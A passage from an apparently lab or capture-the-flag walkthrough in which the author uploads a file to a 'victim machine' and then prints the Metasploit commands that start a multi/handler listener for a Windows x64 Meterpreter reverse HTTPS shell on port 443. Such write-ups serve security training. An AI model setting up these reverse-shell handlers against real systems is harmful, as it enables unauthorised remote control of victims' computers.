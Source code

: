 now let’s upload it to the victim machine

![image.png](../images/lock%2016.png)

now let’s open metasploit handler.

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost tun0
set lport 443
set exitfunc thread
exploit
```

![image.png](../images/lock%2017.png)
